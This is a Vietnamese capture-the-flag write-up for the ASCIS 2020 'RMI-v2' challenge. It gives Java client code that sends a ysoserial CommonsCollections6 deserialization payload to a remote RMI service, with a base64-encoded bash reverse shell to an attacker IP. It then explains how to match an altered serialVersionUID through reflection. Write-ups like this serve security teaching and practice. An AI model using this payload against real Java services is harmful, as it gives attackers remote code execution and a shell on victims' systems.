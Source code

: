 # Step 1:
Dựa vào hint của tác giả với blog <a href="https://mogwailabs.de/en/blog/2019/03/attacking-java-rmi-services-after-jep-290/">này</a> có thể sử dụng gadget CommonsCollections6 để khai thác. Chỉnh sửa lại client lại 1 chút để gửi payload.

```
public static void main(String[] args) throws Exception {
        String serverIP = "IP";
        int serverPort = Integer.parseInt("PORT");
        Registry registry = LocateRegistry.getRegistry(serverIP, serverPort);
        ASCISInterf ascisInterf = (ASCISInterf)registry.lookup("ascis");
        Object payload = new CommonsCollections6().getObject("bash -c {echo,BASE64(bash -i >& /dev/tcp/IP/PORT 0>&1)}|{base64,-d}|{bash,-i}");
        System.out.println(ascisInterf.login(payload));
    }
```
Nhận được exception như dưới:
<img src="https://raw.githubusercontent.com/trungthiennguyen/CTF-Writeup/main/ASCIS-2020-Quals/RMI-v2/vul1.png">
Dựa vào đây biết được tác giả đã đổi biến static final serialVersionUID thành -1333713373713373737L.
# Step 2:
Sử dụng java reflection để thay đổi biến static final lại thành -1333713373713373737L là xong.
<img src="https://raw.githubusercontent.com/trungthiennguyen/CTF-Writeup/main/ASCIS-2020-Quals/RMI-v2/image_2020-11-02_17-29-08.png">
# Note:
Sau khi bruteforce class của ysoserial thì còn có thể sử dụng CommonsCollections5
